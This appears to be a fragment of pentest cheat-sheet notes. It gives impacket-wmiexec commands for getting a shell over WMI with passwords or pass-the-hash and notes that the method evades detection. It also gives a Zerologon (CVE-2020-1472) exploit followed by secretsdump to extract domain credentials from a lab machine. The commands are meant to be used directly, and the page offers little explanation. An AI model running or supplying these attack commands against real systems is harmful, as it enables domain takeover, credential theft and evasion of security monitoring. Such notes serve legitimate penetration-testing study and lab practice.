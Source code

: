 ### WMI
>The advantage to this method is that it allows us to execute code without writing on the disk or creating a new system. The result is a lowered chance of detection by Windows Security Essentials and Bit9, for instance
###### Get Shell
```
impacket-wmiexec domain/username:password@ip
impacket-wmiexec -hashes LMHASH:NTHASH domain/username@ip
```

###### Connecting with authentication
```
impacket-wmiexec domain/'':''@ip
```
###### NXC Module CVE-2020-1472
![image](https://github.com/user-attachments/assets/3d7dc036-4432-4c5b-bc94-e39c4d5a2d5d)
```
python3 cve-2020-1472-exploit.py Monteverde 10.10.10.172
impacket-secretsdump 'megabank.local'/'Monteverde$'@10.10.10.172 -just-dc -no-pass 
```
